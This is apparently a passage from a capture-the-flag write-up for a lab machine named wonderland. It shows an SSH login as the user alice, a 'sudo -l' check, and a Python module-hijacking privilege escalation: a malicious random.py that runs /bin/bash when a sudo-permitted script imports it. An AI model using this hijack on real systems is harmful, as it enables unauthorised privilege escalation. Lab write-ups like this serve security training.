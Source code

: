 ```
ssh alice@10.10.130.186               
The authenticity of host '10.10.130.186 (10.10.130.186)' can't be established.
ED25519 key fingerprint is SHA256:Q8PPqQyrfXMAZkq45693yD4CmWAYp5GOINbxYqTRedo.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.130.186' (ED25519) to the list of known hosts.
alice@10.10.130.186's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jan 31 10:33:49 UTC 2024

  System load:  0.0                Processes:           84
  Usage of /:   18.9% of 19.56GB   Users logged in:     0
  Memory usage: 28%                IP address for eth0: 10.10.130.186
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon May 25 16:37:21 2020 from 192.168.170.1
alice@wonderland:~$ 
```
Bingo ! we are in.

## PrivEsc

```
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

alice@wonderland:~$ cat /home/alice/walrus_and_the_carpenter.py
import random
poem = """The sun was shining on the sea,
Shining with all his might:
...
...
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```
something interesting is that the script import random. Let's make our own malicious `random.py`:
```py
import os

os.system("/bin/bash")
```
